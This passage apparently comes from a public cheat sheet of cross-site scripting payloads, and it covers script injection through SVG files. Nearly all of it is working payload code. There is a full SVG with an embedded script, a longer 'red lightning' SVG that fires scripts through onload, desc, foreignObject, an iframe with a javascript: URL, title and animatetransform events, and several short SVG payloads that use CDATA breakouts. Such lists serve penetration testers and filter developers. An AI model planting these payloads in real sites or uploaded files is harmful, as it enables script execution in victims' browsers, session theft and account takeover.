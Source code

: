 ```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

More comprehensive payload with svg tag attribute, desc script, foreignObject script, foreignObject iframe, title script, animatetransform event and simple script. Codename: red ligthning. Author: noraj.

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" width="100" height="100" xmlns="http://www.w3.org/2000/svg" onload="alert('svg attribut')">
  <polygon id="lightning" points="0,100 50,25 50,75 100,0" fill="#ff1919" stroke="#ff0000"/>
  <desc><script>alert('svg desc')</script></desc>
  <foreignObject><script>alert('svg foreignObject')</script></foreignObject>
  <foreignObject width="500" height="500">
    <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert('svg foreignObject iframe');" width="400" height="250"/>
  </foreignObject>
  <title><script>alert('svg title')</script></title>
  <animatetransform onbegin="alert('svg animatetransform onbegin')"></animatetransform>
  <script type="text/javascript">
    alert('svg script');
  </script>
</svg>
```

#### Short SVG Payload

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#short-svg-payload)

```js
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### Nesting SVG and XSS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#nesting-svg-and-xss)
